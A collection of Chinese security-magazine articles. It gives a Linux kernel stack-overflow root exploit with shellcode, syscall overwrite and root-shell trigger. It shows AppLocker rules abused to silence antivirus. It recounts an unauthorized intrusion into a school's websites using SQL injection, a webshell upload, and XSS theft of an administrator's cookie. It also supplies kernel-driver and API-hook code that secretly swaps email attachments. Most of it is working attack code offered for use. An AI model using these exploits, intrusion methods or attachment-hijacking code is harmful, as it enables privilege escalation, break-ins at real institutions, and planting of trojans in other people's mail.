一个稳定的、不被使用且不会破坏原有内核数据的地址是我们的目标，我把目光锁定在系统调用中。参考劫持系统调用的方法，exploit 用 `memcpy` 把 ShellCode 覆盖 `sys_getcpu` 的 opcode。选择 `sys_getcpu` 仅仅因为它比较冷门、比较好欺负，修改它不会引起系统无故崩溃，同时二次触发也非常简单。

## 内核 ShellCode

```asm
; fake the kernel code
push ebp
mov ebp, esp
sub esp, 0x50
pusha

xor eax, eax
push 0xc0472930        ; address of prepare_kernel_cred
pop ebx
call ebx
push 0xc0472520        ; address of commit_creds
pop ebx
call ebx
popa
mov esp, ebp
pop ebp
ret
```

值得一提的是内核 ShellCode。编写内核 ShellCode 必须注意栈平衡，用到的技巧就是 `pusha/popa` 来保护各通用寄存器的值。其二是由于要执行内核函数，平时的 `call function` 会由 Linker 来为我们填写相应的偏移量，而这里的 shellcode 是 hard coding 的，所以用 `call ebx` 来跳过这一限制。

Nasm 把 ShellCode 编译为 elf 文件后，用 objdump 转为 opcode 后，接下来是 exploit 的代码了，如图 4 所示。

```c
char shellcodeTXT[] =
"\x55"
"\x89\xe5"
"\x81\xec\x50\x00\x00\x00"
"\x60"
"\x31\xc0"
"\x68\x30\x29\x47\xc0"
"\x5b"
"\xff\xd3"
"\x68\x20\x25\x47\xc0"
"\x5b"
"\xff\xd3"
"\x61"
"\x89\xec"
"\x5d"
"\xc3";

// kernel functions take args in register
#define KERNCALL __attribute__((regparm(3)))
int KERNCALL kernelcode() {
    kernel_printk(" !!! in kernelcode !!!\n");
    char *landing = sys_getcpu;
    memcpy(landing, shellcodeTXT, sizeof(shellcodeTXT));
    kernel_printk("[+] debug: ptr is %x\n", *(int*)landing);
    __asm volatile ("mov $ff, %esp;"
                    "iret;");
}
```

图 4

这段代码实现的功能就是把我们写的 ShellCode 覆盖原来的系统调用处，让我们可以在用户态简单地调用 `sched_getcpu()` 来触发。如图 5 所示，很简单地就获取了 Root 权限。

```bash
[g0t3n@g0t3n tmp]$ cat trigger2.c
#include <unistd.h>
#include <stdio.h>
#define _GNU_SOURCE
#include <utmpx.h>

void shell(void) {
    char *p[] = {"//bin/sh", "-i", 0};
    execve("//bin/sh", p, 0);
}

int main() {
    if (sched_getcpu() == -1) {
        printf("error\n");
    }
    shell();
    return 0;
}
[g0t3n@g0t3n tmp]$ gcc trigger2.c -o trigger
[g0t3n@g0t3n tmp]$ id
uid=501(g0t3n) gid=501(g0t3n) groups=501(g0t3n)
[g0t3n@g0t3n tmp]$ ./trigger
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.1#


```

图 5

### 浅析 AppLocker 与缺陷利用

文/图 李旭昇

AppLocker 是微软在 Windows 7 中推出的一款基于组策略的管理工具，允许管理员配置允许或禁止运行某些应用程序、安装程序或脚本。与软件限制策略（Software Restriction Policies，SRP）相比，AppLocker 最大的优势是灵活便捷。本文将首先介绍利用 AppLocker 提高系统安全性的方法，接着指出它存在的一些漏洞和可能的恶意利用方法。

首先我们来实际配置 AppLocker 使其禁止运行 notepad.exe。运行“gpedit.msc”打开组策略编辑器，依次定位到“计算机配置”→“Windows 设置”→“安全设置”→“应用程序控制策略”→“AppLocker”，如图 1 所示。将 AppLocker 展开，得到三个选项，依次是：

- 可执行规则
- Windows 安装程序规则
- 脚本规则

其意义都是很明确的。

图 1 AppLocker 菜单

我们在可执行规则上点击右键，选择创建新规则，如图 2 所示，需要指定允许或者拒绝操作。AppLocker 依据白名单规则，未经允许的程序都被禁止运行。白名单的规模可能十分庞大，不过不必担心，AppLocker 将帮助我们创建默认的规则以运行通常的程序。在“操作”中选择“拒绝”，保持“用户或组”为“Everyone”（即该规则适用于任何用户和组），并点击下一步。

图 2 设置操作和用户

如图 3 所示，接下来需要选择“主要条件的类型”，有三种选项：发布者、路径或文件哈希。

- “发布者”选项将使用软件的发布者签名来判断是否允许运行程序，比如禁止所有腾讯公司签名的程序，可以禁止使用 QQ 或玩 QQ 游戏。
- “路径”可以指定应用程序路径或文件夹路径，当指定文件夹时，文件夹中的所有文件都会受到影响（包括子文件夹）。“路径”选项支持通配符，十分方便。
- “文件哈希”则是使用文件的哈希值进行判断，可以防止程序被拷贝到其他目录下运行。

图 3 设置规则类型

我们选择路径并进行下一步，接着选择 notepad.exe 所在的路径 `%SYSTEM32%\notepad.exe`，然后再次点击下一步。有时我们需要允许运行某个文件夹下大部分的程序，但又有几个需要禁止，便可以通过例外选项设置。不过这里我们并不需要这样设置，所以直接点击下一步，并将该规则命名为“禁止运行记事本”，以便日后维护，最后点击“创建”。

如图 4 所示，AppLocker 会询问我们是否创建默认规则。默认规则有三条：

- 允许任何用户运行 `%PROGRAMFILES%` 下的程序
- 允许任何用户运行 `%WINDIR%` 下的程序
- 允许管理员运行任何路径下的程序

如果不创建这三条规则，将会导致大量程序无法运行，带来极大不便，所以我们点击确定创建默认规则。

图 4 AppLocker 询问是否创建默认规则

由于是第一次配置 AppLocker，需要将 Application Identity 服务设为自动启动，并重新启动计算机才能使规则生效。重启后尝试运行 notepad.exe，如图 5 所示，会得到错误提示。

图 5 `%SYSTEM32%\notepad.exe` 被阻止

以上就是 AppLocker 的基本用法。当然，任何安全策略想要发挥作用都需要正确的配置，AppLocker 也不例外。我们可以先根据签名来设置允许或禁止某些程序运行，比如禁止腾讯公司的程序而允许本公司开发的所有程序，只允许运行有签名的程序等等。接下来可以依据特定的路径来设置允许运行某些程序。如果某个程序被确定为恶意文件且在网络内传播，可以用哈希规则禁止其运行。http://technet.microsoft.com/en-us/library/ee791835.aspx 中给出了一些配置技巧，可供参考。

AppLocker 还提供安全审计（Security Auditing）功能，供我们查看与 AppLocker 有关的事件，包括文件路径与名称、允许或禁止、适用的规则类型和名称、用户组 SID 等信息。查看的方法也十分简单，只需运行 eventvwr.msc 打开事件查看器，依次展开“应用程序和服务日志”→“Microsoft”→“Windows”→“AppLocker”即可查看有关日志。如图 6 所示，事件为禁止运行 notepad.exe 的相关记录。

图 6 有关的事件属性

任何事情都有两面性，AppLocker 也有其不足的地方。AppLocker 所能做的只是防止恶意软件的入侵，当恶意软件在系统内安装扎寨后，它提供的几项限制就力不从心了：对于签名和哈希规则，恶意软件可以很简单地修改自身来绕过；对于路径规则，如果不与其他技术结合，只需复制到其他路径即可绕过。

AppLocker 甚至还可以被恶意软件利用。如图 7 所示，笔者添加了一条目录规则，禁止某杀软所在目录下的程序运行。重启后发现该杀软没有运行，也没有给出任何相关提示。此时双击启动杀软会得到阻止提示，可能是 AppLocker 的知名度较低尚未引起杀软注意，笔者连续测试了几款杀软均中招。虽然 Windows API 中没有提供设置 AppLocker 的接口，但是实验发现，借助 PowerShell 或直接编辑注册表都可以添加新的规则。这说明恶意软件完全可以利用 AppLocker 来实现禁止杀软运行并隐藏自身的目的，有兴趣的读者可以自行验证或参阅《深入解析 Windows 操作系统》一书。

图 7 禁止杀软运行

## 一次“失败”的渗透

图/文 独猫

一直听说某学校的某些网站做得非常好，没有什么漏洞。我大体看了下，发现是 Linux+Apache，我想估计是因为 Linux 的原因让大家觉得很安全吧！毕竟学校这种地方，网站的漏洞应该是非常多的，我也就没再多想。直到有一天，忽然发现很多院系的 URL 都是相似的，我才有了进行友情测试的想法。然而我最终也没能得到管理员的密码，所以称之为“失败”的入侵吧！（文中网址均以 *.cn 代替）

打开网站，如图 1 所示，看起来还不错，URL：http://1.cn/?mod=info&act=view&id=836 的所有参数都走 index.*** 这个网页，再进行其他操作。尝试了 PHP、ASP 等后缀，确定网站使用 PHP 编写。先来看下网站的 CMS 系统吧，Powered by le***c，没听说过，百度后发现好像页面都是这所大学内部院系的，看样没有现成的漏洞可以利用了。

图 1

根据短板原理，只要找到了最脆弱的攻击点，就可以由此展开攻击。首先用 5W 数据的后台字典暴力扫描看看有什么能直接利用的东西，比如 eWebEditor 之类的，结果一无所获。后来更换 80W 的大字典满负荷扫了很长时间，也只扫描到 `1.cn/fckeditor/editor/fckeditor.html` 一个地址，但这个网址却也打不开，估计是被限制关闭了。

现成的漏洞没有，只能自己挖掘了。看来这个网站的安全性还真不错。由网页参数 `mod=info&act=view&id=836`，推断 mod 是信息这一栏，act 则是各种详细动作，id 则为定位到每篇文章的编号。经过 SQLMAP、穿山甲、胡萝卜和 safe3 的各种摧残，最终也是没能扫描到任何注入点。暴力忙了一天也没有收获，休息一下明天继续吧。

由于服务器大多是学校的独立服务器，直接搜索旁注站点是不可能了，只能从百度中继续搜索这套程序的特征参数，最终找到一个不属于学校但却使用同一套 CMS 的网站，网址记作 2.cn。同样找最薄弱处，先暴力扫目录，扫到 bbs 这个目录，打开显示为一个 phpbb 的论坛，只有 admin 一个用户，估计荒废了。去网上搜索对应的漏洞和默认密码，都没有成功，反倒是找到了一个利用 phpmyadmin 替换密文的方式恢复密码的，看了下密文和明文，发现是单一的 MD5 加密，看来只要拿到 admin 的密码基本就没有问题了，可是找了半天也没找到一个可以利用的漏洞，看来我的水平和运气真的是差到家了。

就在感觉真的没希望的时候，我忽然意识到这些网站好像每个都有些不同的地方，比如板块功能设计，也就是说，我遗漏了某些页面和参数！赶紧重新对比两个网站，发现我最开始扫描注入点的网站没有搜索功能，而现在的网站则存在此功能！得到参数 `mod=info&act=search&kw=a&x=4&y=7`，kw 就是搜索关键字，后面的 x 和 y 不知用处，去掉也无妨。kw 后习惯性加上一个单引号，MySQL 报错了，连 SQL 查询语句都爆了出来，如图2 所示。
图 2

既然这里存在注入，就直接扔进 sqlmap，可是却没跑出来，提示如下：

```text
[22:24:00] [WARNING] the testable parameter 'kw' you provided is not into the GET
[22:24:00] [CRITICAL] all testable parameters you provided are not present within the GET, POST and Cookie parameters.


```

之后换成 Safe3 就成功地跑出目标程序的数据库了，密码是经过加密的，长度为 20 位。一开始以为是类似于 dedecms 那样的加密方式，可是逆向还原 MD5 却无论如何也破解不了，所以初步猜测是加了 salt 后截断某 20 位。正面攻击又失败了，那就从 PHPBB 下手吧。跑出来的数据库如图 3 所示，再根据之前那个恢复 PHPBB 密码帖子，找到 MD5 值 ee10c315eba2c75b403ea99136f5b48d，查询出来密码为 nimda。成功登录后台，进入后台之后却大失所望，后台由于年久失修无比残缺，功能损失得惨绝人寰，最终也是没能搞到有用的信息，思路又断掉了。
图 3

继续搜特征参数看看能不能找到可以利用的其他网站，结果还真找到一个：http://3.cn/zhongxin2013/?mod=info&act=list&id=8。注意到了吗？这是二级目录而不是根目录。我们跳回根目录，如图 4 所示，下面有几个 URL 看起来安全性不怎么好的 ASP 子站。看版权信息好像很久没有更新了，同样扫描目录，找到了一个上传页面，如图 5 所示。
图 4
图 5

上传一个 ASP 大马，提示文件类型不正确，尝试 asa 也不行，于是想到 IIS 的解析漏洞，将大马改名为 a.asp;a.jpg，成功上传。查看返回信息得到上传之后的大马路径 /answersystem/taolun/upload/a.asp;.jpg_a.jpg，后来又尝试了下 00 截断也是可以成功上传的。这样就得到了 WebShell，直接从文件管理器中找到目标程序所在的目录，如图 6 所示。
图 6

利用大马中的服务器打包功能，将 zhongxin2013 目录打包成 mdb 文件下载，去网上找了一个 vbs 脚本，将文件从 mdb 数据库内导出。打开文件源码，定位到 libs/lib_user.php，找到 checkpass 这个检验用户名密码是否正确的函数。

```php
function checkPass($u,$p,$v,$url="?admin=admin",$flg="0")
{
    // File lib_user.php
    require_once("libs/lib_log.php");
    $log = new Log();
    if($v <> $_COOKIE["vertify"])
        alert("验证码不正确，请重新输入", "");
    $u = sqlFilter($u); // 进行过滤，sqlFilter 这个函数我也贴出来
    $p = sqlFilter($p);
    $sql = "select * from user where name='$u' and pwd=left(md5('$p'),20)"; // 关键代码
    $this->db->query($sql);
    if($this->db->num_rows() < 1)
    {
        alert("帐号或密码不正确，请重新输入", "",0);
    }
    $this->db->next_record(MYSQL_ASSOC);
    # 省略无关代码............................
}

function sqlFilter($s)
{
    // File lib_function.php
    $str = $s;
    $str = str_replace("'", '&#39;', $str);
    // $str = str_replace('"', '&#34;', $str);
    $str = str_replace(";", '&#59;', $str);
    return $str;
}
```

但在这个过程中，我很不幸地将 `pwd=left(md5('$p'),20)` 这句话看成了 `pwd=left(md5('$p',20))`，导致我后续一系列没有多少意义的举动——搞到管理员密码。问了别人都说标准 PHP 没有这样一个 MD5() 函数，结果找了半天也没找到这个“MD5”函数的定义。我想，或许我得到的这个程序也是残缺版？

不管了，还是先看看还有什么能利用的漏洞吧。整理下思路，现在知道了管理员的密码的加密值，有部分网站源码，如果知道管理员的密码或者后台权限，说不定就能得到完整程序。要实现这一点，最合适的就是搞到 Cookie，也就是 XSS。说干就干，在留言处发现留言内容并没有进行过滤，从而可以进行跨站攻击得到 Cookie。在本机搭建环境并成功得到 Cookie 后，我给管理员留了个带有 XSS 代码的“建议”。

不到一天就收到了 Cookie。趁晚上管理员不在，改了 IP 和 MAC，用得到的 Cookie 登录，找到上传附件，直接得到 PHP Shell。之后又将服务器程序打包下来，进行对比，发现源码内容一样，这时候我才发现原来是标准 MD5 加密函数，取了左 20 位。去社区问了问别人，说截断的 MD5 基本是没法爆破的，然后不甘心，又用 l*** c（作者的名字）+常用组合跑了半小时 MD5 也没跑出来。自我安慰想了想，也没有多少必要非得拿到管理员密码，毕竟源码和 Cookie 都有了。况且想得到密码的话上传个 EXP，修改下 PHP 源文件就可以了，但是这样可能会对服务器产生不可预知的后果，也就算了。

到此，这次“失败”的渗透过程也算画上了个句号。当我们在进行渗透测试的时候，不妨利用短板原理，找最短的板，它可能是旁注的旁注的旁注，然后由最短的板开始，逐步得到网站源码，然后进行白盒分析，再进行有针对性的分析，这样对渗透是事半功倍。

### Linux 内核栈溢出研究

文/图 修炼中的柳

Linux 内核漏洞有很多类型，例如内核栈溢出、slab/slub 类堆溢出、数组越界导致的复写内核中的重要数据、内核信息泄漏，以及曾经火热一时的 null pointer deference（空指针引用）问题。本文研究的方向则是 Linux 内核的栈溢出。

我所研究的系统版本是 linux-kernel 2.6.32-15 + centos 6.3，内核是自己编译的。编译内核时，把 CC_STACKPROTECTOR 关闭。CC_STACKPROTECTOR 的功能很简单，就是 gcc 的 stack canary 保护（现在 Linux 的 gcc 默认都是打开，-fno-stack-protector 选项其实就是关闭 CC_STACKPROTECTOR 保护），在函数调用时备份 gs 中的一个随机值，函数 ret/iret 前先检查 canary 值是否被改变，如果被改变就执行内置保护函数 `___stack_chk_fail()`。

为了测试我们的内核栈溢出，先写一个带有问题的模块，代码如下。

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/init.h>
#include <linux/proc_fs.h>
#include <linux/string.h>
#include <asm/uaccess.h>
#define LENGTH 64
MODULE_LICENSE("GPL");
MODULE_AUTHOR("g0t3n");
MODULE_DESCRIPTION("stack bof Kernel Module");
static struct proc_dir_entry *gbof_proc;

int gbof_write(struct file *file, const char __user *ubuf, unsigned long count, void *data)
{
    char buf[LENGTH];
    printk(KERN_INFO "gbof: called gbof_write\n");
    if (copy_from_user(&buf, ubuf, count)) {
        printk(KERN_INFO "gbof: copy_from_user error\n");
        return -1;
    }
    return count;
}

static int __init gbof_init(void)
{
    gbof_proc = create_proc_entry("gbof", 0666, NULL);
    gbof_proc->write_proc = gbof_write;
    printk(KERN_INFO "gbof: created /proc/gbof entry\n");
    return 0;
}

static void __exit gbof_exit(void)
{
    if (gbof_proc) {
        remove_proc_entry("gbof", gbof_proc);
    }
    printk(KERN_INFO "gbof: unloading module\n");
}
module_init(gbof_init);
module_exit(gbof_exit);
///// end


```

代码实现功能很简单，使用 create_proc_entry 注册一个 /proc/gbof 文件，任何写到该文件的数据都会经过 copy_from_user 复制到内核栈中。需要注意的是，Linux 的内核栈只有两页，即 2*4k = 8k = 8*1024 = 8192 Byte，是非常小的，不如用户态那么大可以随便用。为了编译需要，我们再写个 Makefile。注意，Makefile 中我用 ccflags-y 关闭 gcc 的 -fno-stack-protector 选项。

参考用户层溢出的思路，内核层的溢出也是类似的三部曲：首先定位溢出点，编写内核态 ShellCode，再写出 exploit 利用。由于我们这里已经有了 gbof.c 的代码，很容易知道问题在于写向 /proc/gbof 中的数据没经校验长度就直接使用了 copy_from_user，这也是类似用户态的 strcpy/memcpy 类的最基本的溢出问题了。如图 1 所示。
图 1

至于定位溢出点则很简单，根据代码知道 buf 的长度是 64 byte，外加上 8 byte 和 4 byte 原来属于 ebp 的值。由于没有 stack canary，我们可以直接用 python 来猜出溢出的地址。如图 2 所示。

```bash
➜  stack_bof git:(master) ✗ python -c 'print "\x90"*64+"A"*8 + "B"*4 + "C"*4' > /proc/gbof


```
图 2

很简单地就能覆盖掉内核寄存器中的 ebx/ecx/edx/esi/ebp/eip/cr2 了。最值得我们关注的 eip 是 0x43434343，也即是“CCCC”。真的能控制到那么多寄存器吗？我们可以把 gbof.ko 丢到 ida 中验证看看，如图 3 所示。
图 3

很明显，在函数最后把栈中数据 mov 到了上面提到的寄存器中。看到这里，是不是感觉和用户层很相似呢？我们同样能控制寄存器了。

接下来的工作就是准备 ShellCode 了。我觉得编写内核层的 ShellCode 有意思得多，只要在用户态指定了相关内核函数的地址，就能在指定内核 ShellCode 做任意事情。由于已经直接进入了内核态，我们的 ShellCode 甚至可以实现类似 lkm backdoor 之类的功能。最为通用的提权 ShellCode 简单到只用 `commit_creds(prepare_kernel_cred(0))` 就可以实现了。更有趣的，我们甚至能用 sys_chmod 来编写 ShellCode。

```c
static void kernel_code(void)
{
    commit_creds(prepare_kernel_cred(0));
    sys_chmod("/etc/passwd", 0777);
    return;
}
```

至于内核函数的地址，我们可以在 /proc/kallsyms 或 /boot/System.map-`uname -r` 中找到所有内核函数的地址。为此，我们的 exploit 可以写个 find_addr 函数，遍历 /proc/kallsyms 来查找所需的函数地址。

```c
while(readed != EOF) {
    char dummy;
    char sname[512];
    readed = fscanf(fd, "%p %c %s\n", (void **)&addr, &dummy, sname);
    if(prepare_kernel_cred && commit_creds && sys_chmod && kernel_printk)
        break;
    else {
        if(!strncmp(sname, "prepare_kernel_cred", 512))
            prepare_kernel_cred = (void*)addr;
        if(!strncmp(sname, "commit_creds", 512))
            commit_creds = (void*)addr;
        if(!strncmp(sname, "sys_chmod", 30))
            sys_chmod = (void*)addr;
        if(!strncmp(sname, "printk", 30))
            kernel_printk = (void*)addr;
    }
}
```

好了，ShellCode 准备好了，我们就应该把前面得到的东西都链接过来实现我们的 exploit 了。由于已经能控制 eip，所以接下来的问题就是 ShellCode 的放置，让 CPU 执行到我们的 ShellCode 处并顺利退出。ShellCode 的放置是个很重要的问题，我也为此纠结了很长时间，最后经过讨论才发现，在 kernel 中是可以用到用户态地址的。由于是基于进程的内核态上下文，因此 copy_from_user 之类的函数也能正常运行，所以可以直接把用户态地址作为我们的 ShellCode 地址就可以了。同时，因为 ShellCode 还是在应用程序地址空间内，没有做任何的复制拷贝操作，所以我们可以不必忌讳 `\x00` 的存在。更重要的是，由于是内核 ShellCode 放在用户态，我们能用 C 随便写，不像用户层溢出那样需要写成 asm，感觉一下跳跃了一大步。

最后的问题是 ShellCode 执行后如何返回用户态。关于这方面的知识，我们可以参考 Linux 中断上下文的切换。Linux 下的 int 0x80 使用户态能进入内核态执行 sys_call。根据网上的介绍，int 执行的实质其实是如下的过程：

- 1) int 指令发生了不同优先级间的控制转移，所以首先从 TSS（任务状态段）中获取高优先级的核心堆栈信息（SS 和 ESP）；
- 2) 把低优先级堆栈信息（SS 和 ESP）保留到高优先级堆栈（即核心栈）中；
- 3) 把 EFLAGS、外层 CS、EIP 推入高优先级堆栈（核心栈）中；
- 4) 通过 IDT 加载 CS、EIP（控制转移至中断处理函数）。

因此，从内核态返回用户态只需要把相关的用户态寄存器恢复后调用 iret，引起一次任务切换就 OK 了。我们可以构造一个 fake_frame 来存放用户层的一系列寄存器值，进入内核态前先调用 setup_ff 备份下相关寄存器，在退出内核态时候恢复用户态寄存器。

```c
struct fake_frame {
    void *eip;            // shell()
    uint32_t cs;          // %cs
    uint32_t eflags;      // eflags
    void *esp;            // %esp
    uint32_t ss;          // %ss
} __attribute__((packed));

void setup_ff(void) {     // 用于备份一系列寄存器
    asm("pushl %cs;    popl ff+4;"
        "pushfl;       popl ff+8;"
        "pushl %esp;   popl ff+12;"
        "pushl %ss;    popl ff+16;");
    ff.eip = &shell;
    ff.esp -= 1024;       // unused part of stack
}
```

这个 exploit 最后的工作就是返回用户态。

```c
#define KERNCALL __attribute__((regparm(3)))
int KERNCALL kernelcode() {
    kernel_printk(" !!! in kernelcode !!!\n");
    commit_creds(prepare_kernel_cred(0));
    __asm volatile ("mov $ff, %esp;"
                    "iret;");
}


```

我们能根据用户层溢出的不少经验来学习内核层的溢出，但内核层溢出与应用层还是有很大不同的。首先，用户层溢出大不了就是段错误，内核层溢出一不小心就会崩溃。而且，在用户层我们有各种强大的调试工具，遇到各种问题后容易重现，而内核层天生就没有很好的调试工具，经常会因为出现 oops 而不知道内存中到底发生了什么事而焦头烂额。因此，编写内核态的 exploit 就需要格外小心。最后把我们之前写的代码都整合下看看效果，如图 4 所示。
图4

成功得到 Root 了，完整代码可以通过附件得到。欢迎各位有兴趣研究 Linux 内核问题的读者共同交流。

（完）

### R0 下利用 MiniFilter 实现邮箱附件劫持

文/图 李旭昇

邮箱附件劫持，是指用户在浏览器上发送邮件时，自动将附件里的文件替换为另外一个文件。关于它的实现，我有两种思路：一是研究发送邮件的协议，在数据包上做手脚；二是加载一个文件系统微过滤驱动，将浏览器对原始文件的读写重定向到另外的文件上，进而达到替换附件的目的。第一种方法较为繁琐，且不同邮箱间可能不兼容，故我采用第二种方法。

有关 MiniFilter 的原理与编写方法，请参考 MSDN 或我在 9 月刊上发表的文章《初探文件系统微过滤驱动》，有关内容恕不赘述。注意，我们需要处理的 IRP 有五个：IRP_MJ_CREATE、IRP_MJ_QUERY_INFORMATION、IRP_MJ_NETWORK_QUERY_OPEN、IRP_MJ_QUERY_EA 和 IRP_MJ_FILE_SYSTEM_CONTROL。只处理 IRP_MJ_CREATE 可以替换附件内容，但可能会造成文件截断。假设旧附件为 100K，新附件为 150K，则上传的内容均来自新附件，但只有 100K 被上传。（这与浏览器读取文件的方法有关，经测试，只有通过 GetFileAttributes 获得文件大小才有影响。）这里给出关键的 IRP_MJ_CREATE 派遣函数的预处理回调代码。

```c
FLT_PREOP_CALLBACK_STATUS FileFilterPreCreate(
    _Inout_ PFLT_CALLBACK_DATA Data,
    _In_ PCFLT_RELATED_OBJECTS FltObjects,
    _In_opt_ PVOID* CompletionContext
){
    NTSTATUS status;
    // 检查发出请求的进程是否为浏览器，如果不是则直接放过
    PEPROCESS CallingProcess = IoThreadToProcess(Data->Thread);
    if(!CheckCallingProcess(CallingProcess)) return FLT_PREOP_SUCCESS_WITH_CALLBACK;

    PFLT_FILE_NAME_INFORMATION NameInfo;
    // 获取文件信息
    status = FltGetFileNameInformation(Data, FLT_FILE_NAME_OPENED | FLT_FILE_NAME_QUERY_DEFAULT, &NameInfo);
    if(!NT_SUCCESS(status)) return FLT_PREOP_SUCCESS_WITH_CALLBACK;

    // 解析文件信息
    FltParseFileNameInformation(NameInfo);
    // 替换 TargetFile 实现劫持
    if(-1 != ReplaceFileInfo(&NameInfo->Name, &(Data->Iopb->TargetFileObject->FileName)))
    {
        FltSetCallbackDataDirty(Data);
        Data->IoStatus.Status = STATUS_REPARSE;
        Data->IoStatus.Information = IO_REPARSE;
    }

    // 释放 NameInfo
    if(NameInfo != NULL){
        FltReleaseFileNameInformation(NameInfo);
    }

    return FLT_PREOP_SUCCESS_WITH_CALLBACK;
}
```

我们只希望在发送邮件的时候替换原始文件，而其他程序读写该文件应该不受影响，所以预处理回调首先调用 **IoThreadToProcess** 获得发出当前请求进程的 EPROCESS，再调用 **CheckCallingProcess** 判断它是否为浏览器，如果不是，则直接放过。**CheckCallingProcess** 函数非常简单，首先通过 **PsGetProcessImageFileName** 获得进程名，再依次与数组 **RepExeName** 中的元素比较，只要有一个匹配，就认为发出请求的进程是浏览器。

```c
char* RepExeName[] =
{
    "chrome.exe",
    "iexplore.exe",
    "firefox.exe",
    "FlashPlayer"
    // Add more exe names here
};

bool CheckCallingProcess(PEPROCESS CallingProcess)
{
    // return true;
    for(int i = 0; i < sizeof(RepExeName) / sizeof(char*); i++)
    {
        if(Substr(PsGetProcessImageFileName(CallingProcess), RepExeName[i]) != -1)
            return true;
    }
    return false;
}
```

随后预处理回调将 I/O 操作的原始文件信息保存在 **NameInfo** 中，调用 **ReplaceFileInfo** 函数检查并替换想要劫持的文件。ReplaceFileInfo 的逻辑非常简单，只是处理 **UNICODE_STRING** 的部分略为繁琐，代码如下：

```cpp
struct ReplaceInfo
{
    UNICODE_STRING OldFile;
    UNICODE_STRING NewFile;
};

ReplaceInfo RepInfo[] =
{
    {RTL_CONSTANT_STRING(L"TestOLD.txt"), RTL_CONSTANT_STRING(L"TestNEW.txt")},
    {RTL_CONSTANT_STRING(L"xyz.docx"),    RTL_CONSTANT_STRING(L"2.docx")},
    {RTL_CONSTANT_STRING(L"1.jpg"),       RTL_CONSTANT_STRING(L"abc.jpg")}
    // Add more file to replace
};

int ReplaceFileInfo(PUNICODE_STRING FileInfoName, PUNICODE_STRING FileName)
{
    int pos = -1, NewFileLength = FileName->Length;
    for(ULONG i = 0; i < sizeof(RepInfo) / sizeof(ReplaceInfo); i++)
    {
        pos = Substr(FileInfoName, &(RepInfo[i].OldFile));
        if(-1 == pos) continue;

        pos = Substr(FileName, &(RepInfo[i].OldFile));
        if(-1 == pos) continue;

        // DbgPrint("Old Name: %wZ", FileName);
        NewFileLength = FileName->Length + RepInfo[i].NewFile.Length - RepInfo[i].OldFile.Length;
        PWSTR buffer = (PWSTR)ExAllocatePoolWithTag(PagedPool, NewFileLength, 'haha');
        if(!buffer) {
            continue;
        }

        RtlZeroMemory(buffer, NewFileLength);
        RtlCopyMemory(buffer, FileName->Buffer, pos * 2);
        RtlCopyMemory(buffer + pos, RepInfo[i].NewFile.Buffer, RepInfo[i].NewFile.Length);
        RtlCopyMemory(buffer + pos + RepInfo[i].NewFile.Length / 2,
            FileName->Buffer + pos + RepInfo[i].OldFile.Length / 2,
            FileName->Length - 2 * pos - RepInfo[i].OldFile.Length);

        if(FileName->Buffer != NULL) {
            ExFreePool(FileName->Buffer);
        }

        FileName->MaximumLength = NewFileLength;
        FileName->Length = NewFileLength;
        FileName->Buffer = buffer;
        // DbgPrint("New Name: %wZ", FileName);
        return i;
    }
    return -1;
}


```

如果 ReplaceFileInfo 函数的返回值不是 -1，即确有需要替换的文件并且已经完成替换，预处理函数就调用 `FltSetCallbackDataDirty` 设置 Data 的 Dirty 标志。如果不设置该标志就返回，那么前面的工作都是徒劳的——下游的过滤驱动和文件系统驱动将接受到原始参数，而非被我们修改过的。

这样我们就实现了对邮箱附件的劫持。如图 1 和图 2 所示，`TestOLD.txt` 和 `TestNEW.txt` 是两个测试文件，加载驱动后，在记事本或其他程序中读写这两个文件都不受影响，而在浏览器中作为邮箱附件发送时，`TestOLD.txt` 将自动被替换为 `TestNEW.txt`。
图1
图2

其实以上方法不仅适用于邮箱附件劫持，也是一个沙盒的模型。我们可以将危险程序的所有读写都重定向到受控的文件夹下，避免其造成破坏。另外，这种方法在破解中也有用武之地。即使是有自校验功能的程序，我们现在也可以大胆地修改。因为只要将读取重定向到原始文件上，就可以绕过自校验机制。此外，通过判断读取文件的进程是否为调试器，还可以保证只有调试器能读取修改后的文件。

### R3 下实现邮箱附件劫持

文/图 倒霉蛋儿

电子邮箱已成为网民常用的互联网产品了，与朋友、家人交流或者发送资料都会使用它，而附件这一功能也是很常用的，如果一封电子邮件的附件被篡改成了木马、诈骗材料，将会带来非常严重的后果。本文就简单地实现了如何篡改附件。

本文采用在 Ring3 层 Hook `CreateFileW`，监视上传文件，将附件替换成自己的文件。API Hook 模块采用 MHOOK-2.3，这是一个开源的 API HOOK 引擎，支持 64 位操作系统，工作稳定。

当用户发送邮件选择添加附件时，一般会弹出一个对话框，让用户选择文件，如图 1 所示。
图1

在该对话框下，有个 **Edit** 控件，会显示被选择的文件名，我们要想办法获得这个文件名，方法是用 **SetWindowLong** 修改原 **WNDPROC**，让它指向自己的窗口处理函数，然后拦截 **WM_SETTEXT** 消息即可。关于如何取得 Edit 控件句柄，我们先用 **EnumWindows** 函数枚举出窗口句柄，再使用 **EnumChildWindows** 函数来枚举出子窗口的句柄，用 **GetClassName** 判断句柄属于哪个控件。

枚举出当前窗口的代码：

```c
BOOL CALLBACK lpEnumFunc(HWND hWnd, LPARAM lParam)
{
    char szTitle[255] = {0};
    SendMessage(hWnd, WM_GETTEXT, sizeof(szTitle), (LPARAM)szTitle);
    if(strstr(szTitle, "文件上传") || strstr(szTitle, "选择要上传的文件") || strstr(szTitle, "选择要加载的文件") || strstr(szTitle, "Select file(s) to upload"))  // 判断是否是上传选择文件对话框，标题根据不同的邮箱可自行修改
    {
        EnumChildWindows(hWnd, EnumChildProc, 0);
        // 枚举子窗口从而获得 Edit 控件句柄
    }
    return TRUE;
}
```

创建一个线程，用来寻找上传窗口的代码：

```c
void FindMailWindow(void *args)    // 寻找上传文件的窗口，发现说明用户要上传附件
{
    HWND hCurWindow = GetForegroundWindow();
    char szTitle[255] = {0};
    while(1)
    {
        SendMessage(hCurWindow, WM_GETTEXT, sizeof(szTitle), (LPARAM)szTitle);
        if(strstr(szTitle, "文件上传") || strstr(szTitle, "选择要上传的文件") ||
           strstr(szTitle, "选择要上载的文件") || strstr(szTitle, "选择要加载的文件") ||
           strstr(szTitle, "Select file(s) to upload"))    // 判断是否是上传选择文件对话框，标题根据不同的邮箱可自行修改
        {
            EnumChildWindows(hCurWindow, EnumChildProc, 0);
            // 枚举子窗口，从而获得 Edit 控件句柄
        }
        else    // 可能有漏掉窗口的情况，用另一种方法来枚举子窗口
        {
            EnumWindows(lpEnumFunc, NULL);
        }

